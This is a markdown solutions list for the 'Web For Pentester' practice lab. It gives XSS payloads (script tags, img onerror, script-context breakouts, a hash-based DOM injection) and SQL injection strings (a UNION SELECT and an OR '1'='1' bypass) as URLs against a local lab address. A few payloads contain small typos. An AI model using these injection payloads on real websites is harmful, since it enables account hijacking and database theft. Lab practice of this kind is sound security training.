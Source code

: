 # Web For Pentester

## XSS

### Example 1

**Solution**

- http://192.168.1.15/xss/example1.php?name=<script>alert(1)</script>

### Example 2

**Solution**

- http://192.168.1.15/xss/example2.php?name=<ScRipt>Ealert(1)</ScRipt>

### Example 3

**Solution**

- http://192.168.1.15/xss/example3.php?name=<img src=x onerror=alert(1)

### Example 4

**Solution**

- http://192.168.1.15/xss/example4.php?name=<img src=x onerror=alert(1)

### Example 5

**Solution**

- http://192.168.1.15/xss/example5.php?name=<img src=x onerror=prompt(1)>

### Example 6

**Solution**

- http://192.168.1.15/xss/example6.php?name=</script><script>alert(1)</script>

### Example 7

**Solution**

- http://192.168.1.15/xss/example7.php?name=';alert(1);'

### Example 8

**Solution**

- http://192.168.1.15/xss/example8.php/"><script>alert(1)</script>

### Example 9

**Solution**

- http://192.168.1.15/xss/example9.php#<script>alert(1)</script>
- document.write(location.hash.substring(alert(1))) (in the JS console)

## SQLi

### Example 1

**Solution**

- http://192.168.1.15/sqli/example1.php?name=root' union select @@version,database(),user(),4,5 -- -

### Example 2

**Solution**

- http://192.168.1.15/sqli/example2.php?name=root'%09or%09'1'='1

